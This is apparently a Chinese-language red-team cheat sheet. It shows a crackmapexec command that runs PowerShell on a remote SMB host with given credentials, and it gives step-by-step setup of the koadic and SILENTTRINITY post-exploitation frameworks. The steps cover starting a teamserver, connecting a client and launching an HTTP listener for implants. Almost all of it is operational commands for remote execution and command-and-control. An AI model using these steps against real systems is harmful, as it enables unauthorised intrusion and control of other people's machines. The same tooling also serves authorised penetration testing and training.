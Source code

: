 ```
\-X执行powershell命令  

```

```
>crackmapexec smb 192.168.0.98 -u y -p 'qwe12323' -X 'POWESHELL'
```

```
koadic
```

```
`https://github.com/zerosum0x0/koadic``>git clone https://github.com/zerosum0x0/koadic.git``>cd koadic``>pip3 install -r requirements.txt``>./koadic`
```

### **SILENTTRINITY**

```
`https://github.com/byt3bl33d3r/SILENTTRINITY``类似cobalt strike+empire的结合``>git clone https://github.com/byt3bl33d3r/SILENTTRINITY``>pip3 install --user pipenv && pipenv install && pipenv shell``>python st.py``服务端执行``>python3 st.py teamserver <teamserver_ip> <teamserver_password>``>python3 st.py teamserver 192.168.0.108 123456``也可加参数--port指定端口`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

```
客户端执行  

```

```
`>python3 st.py client wss://<username>:<teamserver_password>@<teamserver_ip>:5000``>python3 st.py client wss://y:123456@192.168.0.108:5000`
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
`>listeners命令进入监听器目录``>use http选择监听器``>options命令查看需要配置的参数`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

```
`>set Port 8081 使用set命令配置参数``>start 启动监听器``>list查看运行中的监听器`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
